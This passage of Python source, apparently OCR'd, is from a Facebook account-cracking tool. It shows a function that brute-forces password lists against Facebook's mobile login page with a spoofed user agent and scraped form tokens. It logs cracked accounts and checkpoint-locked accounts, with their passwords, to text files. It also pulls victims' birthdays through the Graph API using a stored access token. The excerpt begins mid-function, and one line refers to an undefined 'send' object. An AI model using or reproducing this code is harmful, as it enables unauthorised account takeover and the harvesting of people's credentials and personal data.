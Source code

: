 			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1	

def dfb(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = ("NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+")
	global ua_de, ok, cp, loop, token
	sys.stdout.write(
		"\r [GK] %s/%s OK:-%s - CP:-%s "%(loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk:
		kwargs = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://d.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "d.facebook.com", "referer": "https://d.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://d.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		qobil = ses.post("https://d.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fd.facebook.com%2F&lwv=100&refid=8",data=kwargs)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print("\r \x1b[1;32m[prem-OK] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))